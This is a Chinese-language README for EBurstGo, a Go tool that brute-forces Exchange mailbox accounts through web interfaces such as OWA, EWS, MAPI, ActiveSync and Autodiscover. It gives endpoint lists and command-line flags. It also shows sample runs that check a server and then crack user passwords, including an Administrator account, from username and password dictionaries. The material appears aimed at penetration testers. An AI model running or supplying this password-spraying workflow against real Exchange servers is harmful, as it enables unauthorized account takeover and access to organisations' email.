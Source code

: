 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目利用 Go 语言进行重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell # 后期支持
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检查目标 Exchange 服务器可用接口
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange 服务器接口
  -pass string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	用户名字典
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user users.txt -pass pass.txt -mode ews
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 4.40084275s
```

协程数不建议开太大, 可能会漏报 (待解决?)

等后面有时间修一修 bug, 还有优化代码结构